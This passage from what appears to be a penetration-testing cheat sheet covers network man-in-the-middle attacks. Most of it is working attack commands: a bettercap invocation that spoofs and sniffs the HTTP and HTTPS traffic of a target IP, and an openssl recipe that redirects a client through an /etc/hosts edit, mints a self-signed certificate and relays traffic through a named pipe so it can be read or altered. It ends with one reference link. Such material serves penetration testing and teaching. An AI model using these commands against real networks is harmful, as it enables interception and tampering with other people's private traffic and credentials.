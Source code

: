 ```powershell
bettercap -X --proxy --proxy-https -T <target IP>
# better cap in spoofing, discovery, sniffer
# intercepting http and https requests,
# targetting specific IP only
```


### SSL MITM with OpenSSL

This code snippet allows you to sniff/modify SSL traffic if there is a MITM vulnerability using only openssl.
If you can modify `/etc/hosts` of the client:

```powershell
sudo echo "[OPENSSL SERVER ADDRESS] [domain.of.server.to.mitm]" >> /etc/hosts  # On client host
```

On our MITM server, if the client accepts self signed certificates (you can use a legit certificate if you have the private key of the legit server):

```powershell
openssl req -subj '/CN=[domain.of.server.to.mitm]' -batch -new -x509 -days 365 -nodes -out server.pem -keyout server.pem
```

On our MITM server, we setup our infra:

```powershell
mkfifo response
sudo openssl s_server -cert server.pem -accept [INTERFACE TO LISTEN TO]:[PORT] -quiet < response | tee | openssl s_client -quiet -servername [domain.of.server.to.mitm] -connect[IP of server to MITM]:[PORT] | tee | cat > response
```

In this example, traffic is only displayed with `tee` but we could modify it using `sed` for example.


## References

* [Pwning the Domain: Credentialess/Username - hadess - February 7, 2024 ](https://hadess.io/pwning-the-domain-credentialess-username/)

